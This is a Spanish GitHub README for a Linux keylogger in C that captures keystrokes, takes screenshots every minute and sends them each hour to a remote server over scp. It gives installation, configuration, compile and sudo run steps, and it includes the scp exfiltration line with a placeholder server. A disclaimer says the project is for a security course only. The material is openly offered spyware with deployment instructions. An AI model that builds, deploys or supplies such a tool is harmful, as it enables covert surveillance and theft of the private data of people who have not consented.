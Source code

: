# Keylogger + Caps 👁

Keylogger con función de capturas de pantalla y envio de datos a un servidor configurable **LINUX**.

# ⚠️ ADVERTENCIA

Este proyecto fue desarrollado **exclusivamente con fines educacionales** como parte de un curso de seguridad informática. **No debe ser utilizado en ningún otro contexto ni con intenciones maliciosas.**

**Aviso Legal:**

El uso de keyloggers esta estrictamente prohibido en diversos países si no se cuenta con el consentimiento explícito del usuario final. El monitoreo o captura de las actividades de un usuario sin su autorización es una violación grave de la privacidad y puede conllevar sanciones legales.

Este código **no debe ser utilizado fuera del entorno educacional ni aplicado a sistemas en producción o dispositivos ajenos sin autorización y consentimiento explicito.**
**El autor no se hace responsable por el uso indebido de este código.** Cualquier intento de utilizar este proyecto para propósitos distintos a los estipulados en este repositorio es **bajo responsabilidad del usuario.**

# Requisitos:

_Nota: La distribución usada y la de este tutorial es para sistemas basados en Debian._
_El código del ejemplo fue probado en un sistema con Parrot por lo que puede variar dependiendo del sistema utilizado._

Es necesario contar con lo siguiente para poder ejecutar y/o compilar el programa:

- **Compilador de C (en este caso gcc).**
- **Libreria scrot (para captura de pantalla).**

```bash
  sudo apt-get install scrot
```

- **Libreria openssh-client (para el envio de datos a servidor local).**

```bash
  sudo apt-get install openssh-client
```

<!-- - **Librerias evdev (para trabajar con evdev).**

```bash
  sudo apt-get install libevdev-dev
``` -->

**Nota:** Además, se utilizaron otras librerias que estan preinstaladas en entornos linux, en caso no presentar errores de librerias, aqui se encuentra un listado con todas las que se utilizaron.

```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <linux/input.h>
  #include <linux/input-event-codes.h>
  #include <pthread.h>
  #include <time.h>
```

# Instrucciones de uso:

Clonar este repositorio con ayuda del comando:

```c
  git clone https://github.com/NightMare070/keylogger_linux
```

Dentro de keylogger.c configurar las rutas de acuerdo a donde se requieran:

```c
  //Por defecto se crean en el mismo directorio donde
  //se encuentra el ejecutable

  // Ruta del archivo que registra las teclas
  logger_file = fopen("keylogger.txt", "a");
  //Ruta de la carpeta que contiene las imagenes
  snprintf(filename, sizeof(filename), "screenshot_%04d-%02d-%02d_%02d-%02d-%02d.png",
```

Dentro de keylogger.c en la función **_transfer_files_** modificar la variable de acuerdo a tu servidor:

```c
  //Variable de ruta
  snprintf(command, sizeof(command), "scp keylogger.txt screenshot_*.png user@server:/path/to/destination/");
```

Una vez teniendo el archivo **keylogger.c** configurado ejecutar el siguiente comando para compilarlo:

```bash
  gcc -o keylogger keylogger.c -pthread
```

y despues ejecutar de la siguiente manera:

```bash
  sudo ./keylogger
```

Y automaticamente despues de ejecutar, se  creara un TXT en la ruta del ejecutable **keylogger** que empezará a registrar las teclas que vamos pulsando además de tomar capturas de pantalla **cada minuto** y enviarlas a un servidor cada hora.

# Supuestos del programa:

## Sistema Operativo:

1. El programa está diseñado para ejecutarse en una distribución de Linux.

## Permisos de Usuario:

1. Se asume que el programa se ejecuta con los permisos necesarios para acceder a los dispositivos de entrada del teclado **(/dev/input/event3)** y que tiene permisos de escritura en el directorio donde se almacenarán los registros y capturas de pantalla.

## Dependencias Instaladas:

1. **libssh2**  para manejar las conexiones SSH.

2. **scrot** para tomar capturas de pantalla.

3. **pthread** para manejar la concurrencia (aunque pthread.h está preinstalado en la mayoría de los sistemas Linux, es necesario asegurarse de que esté disponible).

## Configuración SSH:

1. Se asume que las credenciales de acceso SSH al servidor remoto están configuradas correctamente, ya sea mediante autenticación por clave o usuario/contraseña, y que el servidor remoto está accesible.

## Conexión a Internet:

1. Se asume que la máquina en la que se ejecuta el programa tiene conexión a Internet para poder realizar el envío de los archivos al servidor remoto.

## Directorio de Trabajo:

1. Se asume que el directorio donde se almacenan las capturas de pantalla y los registros de teclas tiene suficiente espacio en disco.

# Casos de uso:

El programa funciona en forma de **3 hilos**, **1 para registrar las teclas**, **1 para tomar las screenshots** y **otro para enviar la información al servidor.** Por lo que técnicamente funcionan de forma independiente y no dependen uno del otro. Sin embargo si no se encuentra el TXT (en un caso hipotético), el programa no tendrá nada para enviar al servidor y lo mismo con las imagenes.

## Hilo principal (main):

| Paso | Actor | Sistema                                    | Si falla                           |
| ---- | ----- | ------------------------------------------ | ---------------------------------- |
| 1    |       | Crear hilos de ejecución para cada tarea   |
| 2    |       | Se crea el hilo del keylogger              | No se registrarán las teclas       |
| 3    |       | Se crea el hilo del tomador de screenshots | No se tomarán screenshots          |
| 4    |       | Se crea el hilo del envio a servidor       | No se enviarán datos a el servidor |

Entonces podemos dividir los casos de uso en 3 partes.

Además, podemos agregar un caso extra por el monitorio constante tanto de teclas, como de capturas de pantalla.

1. Registro de Teclas:

- **Descripción:** El programa captura las pulsaciones de teclas del usuario en tiempo real y las almacena en un archivo **keylog.txt**.
- **Caso de Uso:** Registrar la actividad del teclado para su posterior análisis.

2. Captura de Pantallas:

- **Descripción:** Cada minuto, el programa toma una captura de pantalla y la guarda con un nombre que incluye la fecha y hora de la captura.
- **Caso de Uso:** Monitorear la actividad visual de la pantalla para revisar lo que se muestra en intervalos regulares.

3. Envío de Datos al Servidor Remoto:

- **Descripción:** Cada hora, el programa empaqueta los archivos **keylog.txt** y las capturas de pantalla en un archivo comprimido y lo envía a un servidor remoto usando SSH.
- **Caso de Uso:** Transferir los datos recopilados a un servidor remoto para su almacenamiento o análisis.

4. Monitoreo Concurrente:

- **Descripción:** El programa ejecuta las tareas de captura de teclas, captura de pantalla y envío de datos de manera concurrente usando hilos **(pthread)**.
- **Caso de Uso:** Permitir que todas las funcionalidades se ejecuten simultáneamente sin interferencias.